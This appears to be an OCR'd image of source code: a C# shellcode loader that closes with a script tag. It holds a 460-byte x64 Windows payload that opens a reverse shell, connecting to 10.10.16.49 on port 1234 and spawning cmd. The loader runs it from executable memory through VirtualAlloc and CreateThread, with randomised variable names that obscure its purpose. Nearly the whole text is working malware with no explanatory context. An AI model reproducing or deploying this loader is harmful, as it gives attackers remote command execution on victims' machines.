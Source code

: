 ```
        byte[] pmkc_gdouAT = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,
0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,
0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,
0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,
0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,
0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,
0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,
0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,
0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,
0x04,0xd2,0x0a,0x0a,0x10,0x31,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,
0xff,0xd5,0x4c,0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,
0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,
0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,
0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,0x6d,0x64,
0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,
0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,
0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,
0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,
0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,
0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};

        IntPtr doXlJAqSp = VirtualAlloc(IntPtr.Zero,(UIntPtr)pmkc_gdouAT.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(pmkc_gdouAT,0,doXlJAqSp,pmkc_gdouAT.Length);
        IntPtr iaBX = IntPtr.Zero;
        IntPtr wPk2IqoLPw2 = CreateThread(IntPtr.Zero,UIntPtr.Zero,doXlJAqSp,IntPtr.Zero,0,ref iaBX);
    }
</script>
```
